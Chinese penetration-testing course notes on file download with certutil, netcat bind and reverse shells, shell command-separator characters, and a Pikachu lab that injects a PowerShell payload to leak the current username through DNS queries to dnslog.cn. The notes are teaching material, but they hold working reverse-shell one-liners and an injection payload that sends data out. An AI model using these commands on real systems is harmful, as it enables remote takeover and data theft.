 Day05 基础入门-反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载
=
案例
-
1.	文件上传下载-解决无图形化&解决数据传输
2.	反弹Shell命令-解决数据回显&解决数据通讯
3.	防火墙绕过-正向连接&反向连接&内网服务器
4.	防火墙组合数据不回显-ICMP带外查询dnslog

#常规基本渗透命令详解
-
常用命令  
<https://blog.csdn.net/weixin_43303273/article/details/83029138>  

#实用案例1:文件上传下载-解决无图形化&解决数据传输  
命令生成:  
<https://forum.ywhack.com/bountytips.php?download>  
Linux : wget curl python rubyperl java等  
Windows : PowerShell Certutil Bitsadmin msiexec mshta rundll32等

Certutil本质是一个管理证书、证书服务和密钥存储的工具，不过黑客们被玩坏了，可以用这个来下载文件。
certutil.exe -urlcache -split -f <http://example.com/file.txt> file.txt

#实用案例2:反弹shell命令-解决数据回显&解决数据通讯命令生成:  
<https://forum.ywhack.com/shell.php>  

# Netcat

### 介绍
（简称nc）一款功能强大的网络工具，在网络管理、渗透测试以及安全评估等领域有着广泛应用，常被称为 “网络瑞士军刀”。  
Netcat 可以用于远程执行命令。  
### 下载
可在此处下载Windows版本的Netcat  
<https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip>

1、正向连接 本地监听，等待对方连接  
-
Linux控制Windows  
>Windows绑定CMD到本地5566端口
>```cmd
>ncat -e cmd -lvp 5566
>```
>Linux主动连接目标
>```bash
>ncat ip 5566
>```
Windows控制Linux  
>绑定sh到本地5566端口
>```bash
>ncat -e /bin/sh-lvp 5566  
>```
>主动连接目标 
>```cmd
>nc ip 5566  
>```

2、反向连接 主动给出去，对方监听  
-
Linux主动给出  
>Linux绑定sh到目标5566端口  
>```bash
>ncat -e /bin/sh 接收者IP 5566
>```  
>Windows监听5566连接  
>```cmd
>nc -lvvp 5566  
>```

Windows主动给出  
>Windows绑定CMD到目标5566端口   
>```cmd
>ncat -e cmd 接收者IP 5566  
>```
>Linux监听5566连接  
>```bash
>nc -lvvp 5566  
>```

***受制于NAT这个万恶的东西， 内网的机器只能主动找其他主机.***

特殊符号
-
	|	||	&	&&	；	``
Linux	可用
Windows	可用	不可用

1.	| （管道符号）
例如，使用管道可以将文件内容通过`cat`命令输出，并通过`grep`命令进行筛选：
cat file.txt | grep "keyword"
https://blog.csdn.net/zhangkunls/article/details/143167921
2.	||（逻辑或）
command1 || command2
如果 command1 执行失败（返回一个非零状态码），则 command2 会被执行。如果 command1 执行成功（返回零状态码），则 command2 不会被执行。
3.	&&（逻辑与）
https://blog.csdn.net/dessler/article/details/142343304
4.	&（后台任务）
在Linux中，当你在命令的末尾添加“&”时，该命令会在后台运行，这样你就可以继续在同一个终端上进行其他操作，而不会因为该命令的执行而被阻塞。
5.	；
Linux系统中的分号（;）用于在命令行中分隔多个命令，使得这些命令可以顺序执行。
6.	``
``中的内容执行后替换

实战：
Windows Server 部署Pikachu漏洞练习平台，打开RCE-exec“ping”
1、	下载源码
2、	添加网站并上传源码
3、	找到Pikachu漏洞练习平台中的RCE-exec“ping”
4、	利用符号进行漏洞利用

关键词：防火墙的出站和入站限制

存在漏洞，但是数据不回显：  
1、	反弹shell  
2、	带外查询  

DnsLog
-
<http://www.dnslog.cn/>是一个提供 DNSLog 服务的网站。  
DNSLog 是一种利用 DNS 协议记录相关信息来进行安全测试、漏洞挖掘等的技术手段。在安全测试场景中：  
当测试人员想要探测目标系统是否存在某些漏洞（如命令执行漏洞）时，若在目标系统中执行的命令能够触发向特定域名发起 DNS 查询请求，通过在 “dnslog.cn” 这类平台上点击”Get SubDomain”创建唯一标识的域名，就可以通过查看该平台上的 DNS 查询记录，确认目标系统是否执行了特定命令，以此来判断漏洞是否存在。  

Windows的cmd不能使用``，所以我们可以用powershell来定义变量：  
输出当前用户
```powershell
$a=whoami  
echo $a  
```
输出当前用户和ip配置
```powershell
$x=whoami;$y=ipconfig  
$x+$y  
```
作用是把$x中的\替换成x，并赋值给$xx变量  
```powershell
$xx=$x.replace('\','x');  
```
上面的语句中分号是作为每条命令的结束，这些功能是cmd所不具备的。  


当数据不能回显时  
看一下是否能正确执行命令  
在pikachu漏洞练习平台模拟让服务器向dnslog.cn发起请求  
Rce-ping构造恶意语句  
```powershell
127.0.0.1 | powershell.exe $a=whoami;$aa=$a.replace('\','x');$bb='.dbwph8.dnslog.cn';$c=$aa+$bb;ping $c;  
```
这时候刷新，dnslog就会出现记录  
